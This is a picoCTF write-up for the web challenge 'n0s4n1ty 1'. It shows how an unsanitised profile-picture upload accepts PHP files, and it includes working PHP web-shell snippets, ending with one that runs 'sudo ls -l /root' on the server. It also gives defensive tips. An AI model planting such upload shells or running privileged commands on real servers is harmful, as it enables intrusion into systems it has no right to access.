

---
tags:
    - picoCTF
    - web-exploitation
---

# n0s4n1ty 1

"A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory."

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the challenge is basic; so don't expect this to be too complex
- process we are given to follow:
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [LMGTFY](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory with content like the following. Save it with a `.php` expension

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`


Now browse there...
Success! It printed our working directory - we have code execution in the context of the web server!

This looks something like the following:



## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call...with sudo.

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

!!! note "Security practice tip!"

    For sudo to work, the web server user will have been added to sudoers.
    That is not normal. If not, we would need some means to privilege escalate

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag yourself!